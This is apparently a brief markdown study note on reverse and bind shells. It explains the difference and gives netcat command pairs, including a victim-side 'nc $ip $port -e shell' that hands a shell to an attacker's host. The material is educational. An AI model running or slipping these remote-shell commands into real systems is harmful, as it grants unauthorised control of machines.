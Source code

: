 ## Reverse shell & Bind shell
[Back to Cyber security page](./index.md)

---

## Reverse shell
In reverse shell , attacker listens on port and victim connects to it with execution shell. It is preffered as it can be tunneled to avoid firewall.
``` bash
attacker > nc -lvnp $port 
 
victim > nc $ip $port -e shell
```

---

## Bind Shell
In Bind shell , attacker connects to victims open port on which it is listening. Although this is easiest form of shell connection , it is protected by firewall so its not the prefered one.

Example : 
``` bash
attacker > nc $ip $port

victim > nc -lvnp $port -e shell
```

---

![difference](https://2.bp.blogspot.com/-ki2E1zoOUqE/Wu2h9kCjsSI/AAAAAAAAB9I/gykQPAMpT5M0NU9YtHAQllyvyJyIzHVIACLcBGAs/s1600/Bind%2Bshell%2Band%2Breverse%2Bshell.png)

---

### Source 
- [Youtube video Hindi](https://youtu.be/BQfryZGl6nQ)
- [Youtube video hindi](https://youtu.be/PMd4mmRuua0)
- [HackerSploit video](https://youtu.be/1kHXf51Sqpk)